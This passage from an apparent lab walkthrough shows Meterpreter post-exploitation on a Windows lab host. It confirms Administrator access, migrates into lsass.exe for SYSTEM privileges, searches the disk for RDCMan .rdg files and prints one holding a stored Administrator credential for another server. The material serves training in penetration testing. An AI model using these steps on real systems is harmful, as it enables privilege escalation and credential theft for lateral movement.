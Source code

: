_Verify the level of access obtained by checking the current user’s identity. The successful exploit should give us Administrator privileges._

`getuid`:
```
Server username: ATTACKDEFENSE\Administrator ←
```

_Migrate the Meterpreter session to the `lsass.exe` process, which runs with SYSTEM privileges. This will allow us to execute commands with the highest level of access on the victim machine._

`migrate -N lsass.exe`:
```
[*] Migrating from 4364 to 624...
[*] Migration completed successfully. ←
```

_Confirm the privilege escalation to SYSTEM by checking the user identity again._

`getuid`:
```
Server username: NT AUTHORITY\SYSTEM ←
```

_Switch to a regular shell to search for `.rdg` files, which are used by the Remote Desktop Connection Manager (RDCMan) to store RDP session configurations, including credentials._

`shell`, `where /r C:\ "*.rdg"`:
```
C:\Users\Administrator\Documents\Production-Server.rdg ←
```

_Display the contents of the discovered `.rdg` file to extract the RDP credentials for the next target machine._

`type C:\Users\Administrator\Documents\Production-Server.rdg`:
```xml
<?xml version="1.0" encoding="utf-8"?>
<RDCMan programVersion="2.8" schemaVersion="3">
  <file>
    <credentialsProfiles>
      <credentialsProfile inherit="None">
        <profileName scope="Local">ATTACKDEFENSE\Administrator</profileName>
        <userName>Administrator</userName> ←
        <password>AQAAANCMnd8BFdERjHoAwE/Cl+sBAAAAE1DVXDjIxECVqSarB25auwAAAAACAAAAAAAQZgAAAAEAACAAAAA+0scV4eUbeZzmNBTxlywaINPEFJ7ektkD3o+Kj1imugAAAAAOgAAAAAIAACAAAAD55lj7B7BfAiLlc09pkM+snZocXr5disPMWC8QRVFmeSAAAAAvDRw6316bdVZYACrqriDVnthbzifaTLvDEQ81iPbLa0AAAABw+AYzKY0zCmZpAjbhDA3jAEmD02R9SLKOOtuIjr7wP7NzkgNniI+HTxkkZGa0omHwJ3QLD3SJiBjAgdXPocbS</password> ←
        <domain>ATTACKDEFENSE</domain>
      </credentialsProfile>
    </credentialsProfiles>
    <properties>
      <expanded>True</expanded>
      <name>Production-Server</name>
    </properties>
    <server>
      <properties>
        <name>10.4.22.37</name>
      </properties>
      <logonCredentials inherit="None">
        <profileName scope="File">ATTACKDEFENSE\Administrator</profileName>
      </logonCredentials>
    </server>
  </file>
  <connected />
  <favorites />
  <recentlyUsed />
</RDCMan>
```
